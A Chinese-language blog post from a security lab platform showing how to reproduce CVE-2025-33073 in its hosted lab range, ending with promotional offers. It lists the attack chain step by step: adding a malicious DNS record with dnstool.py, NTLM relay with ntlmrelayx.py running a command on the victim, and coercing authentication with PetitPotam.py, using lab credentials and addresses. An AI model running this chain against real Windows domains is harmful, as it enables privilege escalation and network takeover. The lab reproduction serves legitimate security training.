 #  CVE-2025-33073：域内大杀器（附复现环境）  
cslab  红蓝公鸡队   2025-06-19 10:08  
  
## 漏洞背景  
  
2025年6月10日，微软发布了每月例行的安全补丁更新。在此次更新中，编号为CVE-2025-33073的严重漏洞引起了业界广泛的关注和重视。微软官方对该漏洞的描述为SMB客户端特权提升漏洞。然而，经过深入分析发现，该漏洞的威胁程度远远超出了普通意义上的“权限提升”范畴。  
> 该漏洞存在于Windows SMB中，由于访问控制不当，具有普通域用户权限的攻击者可以通过添加恶意的DNS记录并强制域内计算机(域控除外)进行解析来获取域内所有用户的权限，从而达到提权的目的。  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5qicBZPD0J0Xibegicb7XKoSkdZmRcIB0zxocWWe9aCicDxYa7GfvLftUAA/640?wx_fmt=png&from=appmsg "")  
  
## 环境搭建  
  
**目前CyberStrikeLab仿真平台已支持漏洞复现，现在访问即可限时免费轻松复现~**  
  
**靶机地址：https://www.cyberstrikelab.com/#/scene/detail/42**  
- 攻击机器kali：10.6.6.10   （  
所有需要用到的工具均已集成在机器中）  
  
- 受害机器：10.6.6.88(CS.cyberstrikelab.com)  
  
- DC：10.6.6.55 (DC.cyberstrikelab.com)  
  
## 复现步骤  
### 1.打开平台，点击开启仿真环境靶机  
  
地址：https://www.cyberstrikelab.com/#/scene/detail/42  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5fa2y4MKwAmwD13UI5XXicFqDNK4WaFumqtWm6ZxTIkxs2TCFpducnbw/640?wx_fmt=png&from=appmsg "")  
  
### 2.开启后下载openvpn配置文件并连接openvpn  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5sMFRfpkc8PYko4421RX39Yde8icnUqrOfC7RTPoFU0gv6Nx4lB8EYYQ/640?wx_fmt=png&from=appmsg "")  
  
### 3.使用ssh工具连接攻击机器kali  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5H7JmCGMbjRw3uwX33hbGv5WedgsiaOib0XCphXFbwwKrgKQEsqh8OaicQ/640?wx_fmt=png&from=appmsg "")  
  
### 4.添加一条DNS记录  
```
python3 dnstool.py -u cyberstrikelab.com\\cslab -p "cs1ab@wwe" -r CS1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.6.6.10 --action add 10.6.6.55
```  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5JoHk8rR8YEClfMoBzWCwMAGflnAIWNZL6BCndPMyBQ4wjSkURmp6EA/640?wx_fmt=png&from=appmsg "")  
  
### 5.启动监听  
```
python3 ntlmrelayx.py -t 10.6.6.88 -smb2support -ts -c whoami
```  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5DW7R1287iaQgAREqF8QibHNIc7biccm7O23whBJDqlC9sva2nx1clQGoQ/640?wx_fmt=png&from=appmsg "")  
  
### 6.进行强制NTLM认证  
```
python3 PetitPotam.py -d cyberstrikelab.com -u cslab -p cs1ab@wwe CS1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 10.6.6.88
```  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5VAEe529CnjWWWuf39TctX2etyDJ8hES2icVnibPibSljFZHfGJlBVVLEA/640?wx_fmt=png&from=appmsg "")  
  
### 7.回显命令  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe59pwUCkHyJaB0PO2fCoLshad2RHr3iaETFiaQBSYVfYSYGLwv9k84YNKg/640?wx_fmt=png&from=appmsg "")  
  
当然这里我们也给大家准备了flag，大家可以在平台上提交  
## 限时福利  
1. 72小时免费开启  
  
1. 转发本推文朋友圈集10个赞，发送截图至公众号后台兑换24小时高级会员，有效期本周内  
  
关注下方公众号，不定期领取各种福利  
  
  

